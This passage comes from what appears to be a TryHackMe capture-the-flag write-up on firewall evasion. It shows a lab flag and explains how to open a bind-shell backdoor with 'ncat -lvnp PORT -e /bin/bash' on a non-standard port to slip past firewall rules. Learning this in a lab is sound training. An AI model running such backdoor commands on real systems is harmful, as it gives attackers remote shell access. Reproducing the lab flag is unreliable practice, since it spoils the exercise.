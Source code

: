 Once we submit it, we can go to:

```
MACHINE_IP:8008
```

![Pasted image 20250523144658.png](../../../IMAGES/Pasted%20image%2020250523144658.png)

We got our flag:

```
THM{1298331956} 
```



# Evasion Using Non-Standard Ports

---

`ncat -lvnp PORT_NUMBER -e /bin/bash`Â will create a backdoor via the specified port number that lets you interact with the Bash shell.

- `-e`Â orÂ `--exec`Â executes the given command
- `/bin/bash`Â location of the command we want to execute

On the AttackBox, we can runÂ `ncat 10.10.19.194 PORT_NUMBER`Â to connect to the target machine and interact with its shell.

Considering the case that we have aÂ firewall, it is not enough to useÂ `ncat`Â to create a backdoor unless we can connect to the listening port number. Moreover, unless we runÂ `ncat`Â as a privileged user,Â `root`, or usingÂ `sudo`, we cannot use port numbers below 1024.

![Pasted image 20250523144900.png](../../../IMAGES/Pasted%20image%2020250523144900.png)


```
ncat -lvnp 8081 -e /bin/bash
```
